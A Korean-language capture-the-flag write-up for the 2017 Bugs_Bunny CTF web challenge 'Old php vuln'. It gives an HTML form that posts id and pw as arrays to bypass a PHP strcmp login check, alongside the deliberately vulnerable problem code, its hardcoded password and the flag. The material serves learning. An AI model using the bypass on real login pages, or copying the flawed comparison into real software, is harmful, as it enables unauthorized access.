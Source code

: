 # 2017 Bugs_Bunny CTF - [Web] Old php vuln
## Problem
```
Hey ,Agent 
Your mission is to hack this secure portal .
Good luck.
http://52.53.151.123/web/web35.php
```

## Solution
[*] 해당 문제는 라이트업을 통하여 문제를 재구성하여 풀었으므로, 실제의 문제내용과는 틀릴 수 있습니다. 문제에 대한 더 자세한 라이트업은 동영상으로 되어있으니, 맨 마지막에 링크 첨부하겠습니다.

처음 문제 페이지에 접속을 하면 로그인창이 나오는데, 문제가 `old php vuln` 인 것으로 보아서
`strcmp` 구문의 취약점을 생각 할 수가 있다.

`POST` 값으로 전송되어지는 `id`, `pw` 파라미터값을 `id[]`, `pw[]` 이런 식으로 `Array`형태로 만들어서 전송을 하면, 플래그를 확인할 수가 있다.

`Bugs_Bunny{65755da329b8770c3e11e7ccba37f4e3}`


## Solution Code
```
<!DOCTYPE html>
<html>
<head>
	<title> Solve.html </title>
</head>
<body>
<form action="127.0.0.1/prob/index.php" method="POST">
<input type="text" name="id[]"><br>
<input type="text" name="pw[]"><br>
<input type="submit" value="OK">
</form>
</body>
</html>
```

## Problem Code
```
<?php

function solve() {
	echo "Hello, admin! <br>Bugs_Bunny{65755da329b8770c3e11e7ccba37f4e3}";
}


$id = $_POST['id'];
$pw = $_POST['pw'];

if(isset($id) && isset($pw)) {
	if(strcmp($id, "admin")==0) {
		if(strcmp($pw, "sotodrkrdpsxmdhkdltmsmswjddusdlchlrhrhdkdldhdkdlsmschldbwjddlchlrhdlsemt")==0) {
			@solve();
		} else {
			echo "You are not admin! :( <br><a href='index.php'> Back </a>";
		}
	} else {
		echo "You are not admin! :( <br><a href='index.php'> Back </a>";
	}
} else {
	?>
	<!DOCTYPE html>
	<html>
	<head>
		<title> Admin Login Page </title>
	</head>
	<body>
	<form method="POST">
	<input type="text" name="id"><br>
	<input type="text" name="pw"><br>
	<input type="submit" value="Login">
	</form>
	</body>
	</html>
	<?
}
?>
```
